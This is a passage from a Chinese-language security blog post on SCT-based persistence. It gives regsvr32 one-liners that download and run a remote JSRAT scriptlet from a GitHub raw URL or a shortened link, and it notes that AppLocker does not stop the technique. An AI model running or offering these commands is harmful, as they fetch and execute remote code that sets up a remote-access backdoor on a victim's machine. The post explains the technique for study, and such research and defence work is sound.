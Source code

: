 [https://github.com/3gstudent/SCTPersistence/blob/master/ShortJSRAT.sct](https://github.com/3gstudent/SCTPersistence/blob/master/ShortJSRAT.sct)

通过regsvr32执行服务器上的ShortJSRAT.sct文件

ShortJSRAT.sct文件包含JSRAT的启动代码

最终优化的JSRAT启动代码如下：

```
regsvr32 /s /n /u /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/ShortJSRAT.sct scrobj.dll

```

如果觉得网址过长，可使用短地址来代替上述文件URL，短地址如下：

```
regsvr32 /s /n /u /i:https://goo.gl/ijB12k scrobj.dll

```

**注：**

该短地址是通过google url shortener生成，因此国内用户无法直接访问，换用其他平台的短地址服务就好。

0x07 防御
=====

综上，这个技巧的实现需要如下限制条件：

```
能在系统上可以执行代码

```

所以应用的前提是已经获得了系统的访问权限，因此只要保护好自身系统的安全就不会被这种类似的方式攻击。至于Windows AppLocker，无法防御sct的应用。

0x08 小结
=====

引用Casey博客的一句话:

([http://subt0x10.blogspot.com/2016/04/setting-up-homestead-in-enterprise-with.html](http://subt0x10.blogspot.com/2016/04/setting-up-homestead-in-enterprise-with.html))**Well, now that everyone has eyes on PowerShell...Lets see what we can do with JavaScript!**

再次感谢CaseySmith@subTee对我研究上的帮助，十分感谢。有待研究的细节还有很多，如果你对此感兴趣，可以一起交流。

更多学习资料：

CaseySmith@subTee介绍利用SCT绕过白名单限制的博客地址，值得学习： ([http://subt0x10.blogspot.jp/2016/04/bypass-application-whitelisting-script.html](http://subt0x10.blogspot.jp/2016/04/bypass-application-whitelisting-script.html))